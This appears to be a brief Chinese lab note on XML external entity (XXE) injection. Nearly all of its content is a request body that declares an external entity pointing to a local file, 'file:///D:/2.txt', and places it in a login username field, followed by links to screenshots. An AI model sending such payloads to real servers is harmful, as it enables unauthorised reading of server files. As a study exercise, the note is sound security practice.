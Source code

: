 ## xee

访问抓包

```
<?xml version="1.0"?>
<!DOCTYPE Mikasa [ 
<!ENTITY hellwork SYSTEM  "file:///D:/2.txt">
]>
<user><username>&hellwork;</username><password>Mikasa</password></user>
```

![image-20220303155754819](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031558964.png)

![image-20220303155826497](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031558553.png)

